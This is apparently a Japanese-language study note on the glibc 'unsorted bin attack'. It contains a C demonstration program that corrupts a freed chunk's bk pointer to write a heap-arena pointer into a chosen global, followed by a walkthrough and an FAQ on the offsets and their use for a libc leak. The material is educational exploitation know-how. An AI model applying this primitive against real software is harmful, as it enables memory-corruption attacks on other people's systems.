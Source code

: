 ## Unsorted bin attack

以下のソースコードをtcacheが有効になっていないlibc(libc-2.23.soのubuntu16.04.6など)を使用してソースコードを実行

<details>
  
```
  
#include <stdio.h>
#include <stdlib.h>

unsigned long remissions;

int main(void)
{

        puts("So we will be covering an unsorted bin attack.");
        puts("The unsorted bin is a doubly linked list.");
        puts("This attack will allow us to write a pointer to the address of our choosing.");
        puts("While this attack really doesn't give us much control over what we write, we can count on it being a ptr (which will probably be a 'large' integer)");
        puts("Let's get started.\n");

    printf("So our goal will be to overwrite the value of the 'remissions' global variable.\n");
    printf("It is at the bss address: \t%p\n", &remissions);
    printf("With the value: \t\t%0lx\n\n", remissions);

    printf("We will start by allocating two chunks. One to insert into the unsorted bin.\n");
    printf("The other to prevent consolidation with the top chunk.\n");

        unsigned long *ptr0 = malloc(0xf0);
    unsigned long *ptr1 = malloc(0x10);

        printf("We have allocated our first chunk at:\t%p\n", ptr0);

        printf("Now let's free it to insert it into the unsorted bin.\n\n");

        free(ptr0);

        printf("Now that it has been inserted into the unsorted bin, we can see it's fwd and bk pointers.\n");

    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);

    printf("Now when a chunk gets removed from the unsorted bin, a pointer to gets written to it's back chunk.\n");
    printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
    printf("That is where we get our ptr write from.\n\n");

    printf("So by using a bug, we can edit the bk pointer of the freed chunk to point to remissions - 0x10.\n");
    printf("That way when the chunk leaves the unsorted bin, the pointer will be written to remissions.\n\n");

    ptr0[1] = (unsigned long)(&remissions - 0x2);

    printf("The current fwd and bk pointers after the write.\n");
    printf("fwd:\t0x%lx\n", ptr0[0]);
    printf("bk:\t0x%lx\n\n", ptr0[1]);


    printf("Now we allocate a new chunk of the same size to remove our freed chunk from the unsorted bin.");
    printf("This will trigger the write to remissions, which has a current value of 0x%lx\n", remissions);

    malloc(0xf0);

    printf("Now we can see that the value of remissions has changed.\n");
    printf("remissions:\t0x%lx\n", remissions);

}

```

</details>

![unsorted-bin-attack-diagram](https://github.com/user-attachments/assets/08eb6a3a-cb88-4d38-b98d-61f450357fe2)


### 概要

このプログラムは以下のステップで「Unsorted Bin Attack」を実演しています：  
  
セットアップ：  
グローバル変数 remissions が宣言されています。これが攻撃のターゲットです。  
プログラムはこの変数のアドレスと初期値を表示します。  
  
  
メモリ割り当て：  
ptr0 = malloc(0xf0) で0xf0バイトのメモリブロックを割り当てます。  
ptr1 = malloc(0x10) で小さなブロックを割り当てます（これはトップチャンクとの結合を防ぐため）。  
  
  
Unsorted Binへの挿入：  
free(ptr0) でptr0を解放し、Unsorted Binに挿入します。  
Unsorted Binは双方向リンクリストなので、解放されたチャンクにはforward（fwd）とbackward（bk）ポインタが含まれます。  
  
  
脆弱性の悪用：  
ptr0[1] = (unsigned long)(&remissions - 0x2) で解放済みのptr0のbkポインタを改ざんします。  
具体的には、remissionsのアドレスから0x10（x64では）を引いた値を指すように設定します。  
  
  
攻撃のトリガー：  
malloc(0xf0) で新しいチャンクを割り当てます。  
このとき、Unsorted Binから解放済みのチャンクが取り出され、bkポインタにはリンクリスト管理用のポインタが書き込まれます。  
改ざんしたbkポインタにより、この書き込みが remissions 変数に起こります。  
  
  
結果：  
remissions の値がメインアリーナへのポインタ（大きな値）に変更されています。  
  
  
重要なポイント  
  
Unsorted Binは、glibc malllocの実装で使用される双方向リンクリストです。  
解放されたチャンクがUnsorted Binから取り出されるとき、メモリ管理のためのポインタ更新が行われます。  
このコードはbkポインタを改ざんすることで、本来書き込まれるべきではない場所（remissions変数）にポインタが書き込まれるようにしています。  
この攻撃の結果、任意のメモリ位置に予測可能な値（通常は大きなポインタ値）を書き込むことができます。  

この技術は、実際のセキュリティ脆弱性の例示であり、教育目的で示されています。このような手法は、メモリ破壊バグを利用して攻撃者がシステムを侵害する方法の一例です。


### FAQ
  
Q.  
ptr0[1] = (unsigned long)(&remissions - 0x2)についてですが  
・unsortedbinに挿入されたptr0を操作することができるということでしょうか？  
・ptr0[1]というのはbkということでしょうか？  
・なぜ(unsigned long)(&remissions - 0x2)なのでしょうか？  
・なぜremissionsのアドレスから0x10（x64では）を引いた値を指すように設定なのでしょうか?  
  
  
A.  
ptr0を操作できる理由  
はい、unsorted binに挿入された（解放された）ptr0を操作できます。これは重要なセキュリティの問題点です。  
通常、メモリがfree()された後にそのメモリを参照・操作することは「use-after-free」と呼ばれるバグですが、このコードでは教育目的でこの問題を意図的に引き起こしています。  
実際の攻撃シナリオでは、何らかのプログラム上の脆弱性（バッファオーバーフローなど）を使って解放済みのメモリを操作します。  
ptr0[1]とbkの関係  
正確です。ptr0[1]はbkポインタを指しています。C言語でポインタ配列を扱う場合、ptr0[0]は最初の要素、ptr0[1]は2番目の要素になります。unsorted binに挿入されたチャンクの場合：  
  
ptr0[0] = 前方リンク（fwd）ポインタ  
ptr0[1] = 後方リンク（bk）ポインタ  
  
これらのポインタはunsorted binの双方向リンクリストを管理するために使われます。  
(unsigned long)(&remissions - 0x2)の意味  
これには2つのポイントがあります：  
  
&remissionsはremissions変数のメモリアドレスを取得しています  
-0x2は64ビットシステム（x64）では実質的に「-0x10バイト」を意味します  
  
なぜ「-0x2」なのかというと、このコードではunsigned long型のポインタを使っているため、アドレス計算が「要素単位」で行われます。  
x64システムではunsigned longは8バイト（64ビット）なので：  
  
-0x2は「2つのunsigned long要素分」だけ前に移動する  
2 × 8バイト = 16バイト = 0x10バイト  
  
つまり、(unsigned long)(&remissions - 0x2)は「remissionsのアドレスより16バイト（0x10）前のアドレス」を意味します。  
なぜremissionsのアドレスから0x10を引くのか  
コードのコメントにある通り：  
```
printf("Specifically a pointer will get written to bk + 0x10 on x64 (bk + 0x8 for x86).\n");
```

unsorted binからチャンクが取り出される際、メモリ管理システムはbkポインタが指すアドレスから0x10バイト先に特定のポインタ値を書き込みます。  
攻撃者の目的は「remissions変数にポインタを書き込む」ことなので、書き込み先がちょうどremissionsになるように逆算すると：  
  
書き込み先 = bkポインタの値 + 0x10  
remissions = bkポインタの値 + 0x10  
bkポインタの値 = remissions - 0x10  
  
この計算が「ptr0[1] = (unsigned long)(&remissions - 0x2)」という操作に反映されています。  
つまり、この操作によって、次回unsorted binからチャンクが取り出される際に、メモリ管理システムがbk + 0x10（つまりremissions）にポインタを書き込むように仕向けています。  
これがunsorted bin attackの本質です。  
→つまり、この攻撃によって次回unsorted binにポインタが書き込まれることでlibc leakに繋がる
